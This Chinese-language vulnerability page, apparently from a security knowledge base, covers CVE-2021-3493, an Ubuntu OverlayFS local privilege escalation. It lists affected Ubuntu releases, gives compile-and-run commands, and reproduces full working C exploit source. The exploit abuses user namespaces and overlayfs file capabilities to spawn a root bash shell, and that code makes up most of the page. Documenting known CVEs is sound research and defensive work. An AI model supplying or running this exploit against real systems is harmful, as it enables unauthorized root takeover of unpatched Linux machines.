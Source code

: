 ```yaml
---
title: Linux kernel权限提升漏洞 CVE-2021-3493
---
```


# Linux kernel权限提升漏洞 CVE-2021-3493
## 漏洞描述
Ubuntu OverlayFS Local Privesc
CVE-2021-3493 EXP在Github被公开，可以通过EXP在Ubuntu多个影响系统中提升 ROOT权限
## 漏洞影响
<a-checkbox checked>Ubuntu 20.10</a-checkbox></br>
<a-checkbox checked>Ubuntu 20.04 LTS</a-checkbox></br>
<a-checkbox checked>Ubuntu 18.04 LTS</a-checkbox></br>
<a-checkbox checked>Ubuntu 16.04 LTS</a-checkbox></br>
<a-checkbox checked>Ubuntu 14.04 ESM</a-checkbox></br>
## 漏洞复现
<a-alert type="success" message="漏洞Github地址为：https://github.com/briskets/CVE-2021-3493" description="" showIcon>
</a-alert>
<br/>

环境使用腾讯云的Ubuntu镜像即可
```sh
gcc exploit.c -o exploit
chmod +x exploit
./exploit
```
下载并编译脚本

![img](../../../.vuepress/public/img/1627100341051-5147a519-0e1f-47be-951b-65ef0f6fbaa5.png)

运行EXP成功提权 Root

![img](../../../.vuepress/public/img/1627100341227-da59e343-c3c8-47c0-85c6-1b5644633a19.png)

## 漏洞POC
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <err.h>
#include <errno.h>
#include <sched.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/mount.h>

//#include <attr/xattr.h>
//#include <sys/xattr.h>
int setxattr(const char *path, const char *name, const void *value, size_t size, int flags);


#define DIR_BASE    "./ovlcap"
#define DIR_WORK    DIR_BASE "/work"
#define DIR_LOWER   DIR_BASE "/lower"
#define DIR_UPPER   DIR_BASE "/upper"
#define DIR_MERGE   DIR_BASE "/merge"
#define BIN_MERGE   DIR_MERGE "/magic"
#define BIN_UPPER   DIR_UPPER "/magic"


static void xmkdir(const char *path, mode_t mode)
{
    if (mkdir(path, mode) == -1 && errno != EEXIST)
        err(1, "mkdir %s", path);
}

static void xwritefile(const char *path, const char *data)
{
    int fd = open(path, O_WRONLY);
    if (fd == -1)
        err(1, "open %s", path);
    ssize_t len = (ssize_t) strlen(data);
    if (write(fd, data, len) != len)
        err(1, "write %s", path);
    close(fd);
}

static void xcopyfile(const char *src, const char *dst, mode_t mode)
{
    int fi, fo;

    if ((fi = open(src, O_RDONLY)) == -1)
        err(1, "open %s", src);
    if ((fo = open(dst, O_WRONLY | O_CREAT, mode)) == -1)
        err(1, "open %s", dst);

    char buf[4096];
    ssize_t rd, wr;

    for (;;) {
        rd = read(fi, buf, sizeof(buf));
        if (rd == 0) {
            break;
        } else if (rd == -1) {
            if (errno == EINTR)
                continue;
            err(1, "read %s", src);
        }

        char *p = buf;
        while (rd > 0) {
            wr = write(fo, p, rd);
            if (wr == -1) {
                if (errno == EINTR)
                    continue;
                err(1, "write %s", dst);
            }
            p += wr;
            rd -= wr;
        }
    }

    close(fi);
    close(fo);
}

static int exploit()
{
    char buf[4096];

    sprintf(buf, "rm -rf '%s/'", DIR_BASE);
    system(buf);

    xmkdir(DIR_BASE, 0777);
    xmkdir(DIR_WORK,  0777);
    xmkdir(DIR_LOWER, 0777);
    xmkdir(DIR_UPPER, 0777);
    xmkdir(DIR_MERGE, 0777);

    uid_t uid = getuid();
    gid_t gid = getgid();

    if (unshare(CLONE_NEWNS | CLONE_NEWUSER) == -1)
        err(1, "unshare");

    xwritefile("/proc/self/setgroups", "deny");

    sprintf(buf, "0 %d 1", uid);
    xwritefile("/proc/self/uid_map", buf);

    sprintf(buf, "0 %d 1", gid);
    xwritefile("/proc/self/gid_map", buf);

    sprintf(buf, "lowerdir=%s,upperdir=%s,workdir=%s", DIR_LOWER, DIR_UPPER, DIR_WORK);
    if (mount("overlay", DIR_MERGE, "overlay", 0, buf) == -1)
        err(1, "mount %s", DIR_MERGE);

    // all+ep
    char cap[] = "\x01\x00\x00\x02\xff\xff\xff\xff\x00\x00\x00\x00\xff\xff\xff\xff\x00\x00\x00\x00";

    xcopyfile("/proc/self/exe", BIN_MERGE, 0777);
    if (setxattr(BIN_MERGE, "security.capability", cap, sizeof(cap) - 1, 0) == -1)
        err(1, "setxattr %s", BIN_MERGE);

    return 0;
}

int main(int argc, char *argv[])
{
    if (strstr(argv[0], "magic") || (argc > 1 && !strcmp(argv[1], "shell"))) {
        setuid(0);
        setgid(0);
        execl("/bin/bash", "/bin/bash", "--norc", "--noprofile", "-i", NULL);
        err(1, "execl /bin/bash");
    }

    pid_t child = fork();
    if (child == -1)
        err(1, "fork");

    if (child == 0) {
        _exit(exploit());
    } else {
        waitpid(child, NULL, 0);
    }

    execl(BIN_UPPER, BIN_UPPER, "shell", NULL);
    err(1, "execl %s", BIN_UPPER);
}


```